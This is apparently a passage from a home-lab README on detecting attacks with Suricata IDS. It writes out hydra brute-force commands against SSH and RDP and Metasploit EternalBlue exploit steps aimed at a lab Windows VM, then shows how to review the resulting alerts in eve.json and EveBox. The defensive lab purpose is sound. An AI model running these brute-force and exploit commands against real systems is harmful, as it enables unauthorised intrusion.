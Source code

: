 2. **Brute Force Attack with Hydra:**
   - Use the `hydra` tool on Parrot Linux to brute-force SSH or RDP login attempts (if RDP is enabled on Windows).
     - SSH:
       ```
       hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<Windows-VM-IP>
       ```
       💻 Brute-forcing SSH login attempt result
     - RDP:
       ```
       hydra -l admin -P /usr/share/wordlists/rockyou.txt rdp://<Windows-VM-IP>
       ```
       💻 Brute-forcing RDP login attempt results
   - Suricata will generate alerts for brute force attempts.
      - 💻 Alerts and logs

3. **Exploit Vulnerabilities with Metasploit:**
   - Use Metasploit on Parrot Linux to exploit a known vulnerability on the Windows VM (even if patched, Suricata should log the attempt).
   - Example: Search for Windows SMB-related exploits in Metasploit:
     ```
     msfconsole
     search smb
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS <Windows-VM-IP>
     exploit
     ```
   - 💻 Attack results on Parrot Linux
   - 💻 Alerts and logs
---

## **Task 4: Monitoring and Analyzing Suricata Logs**

#### **Step 1: Viewing Logs**
1. **Eve.json:**
   - Open `C:\Program Files\Suricata\log\eve.json` to see the detected events in JSON format.
   - You can use a tool like `jq` on Windows to format the output for easier readability:
     ```
     jq . < eve.json
     ```
   - 💻 Highlight the logged attacks
2. **Real-time Monitoring with EveBox:**
   - Install EveBox for better visualization of Suricata logs.
   - Download and install EveBox from the [official website](https://evebox.org/).
   - Start EveBox and configure it to read the `eve.json` logs:
     ```
     evebox -r C:\Program Files\Suricata\log\eve.json
     ```
   - 💻 Logs in EveBox
#### **Step 2: Analyzing the Traffic**
- Look for the following in the logs:
  - 💻 ICMP traffic from Parrot to Windows (from the ping).
  - 💻 Port scanning alerts from Nmap.
  - 💻 Brute force detection from Hydra.
  - 💻 Exploit attempts from Metasploit.
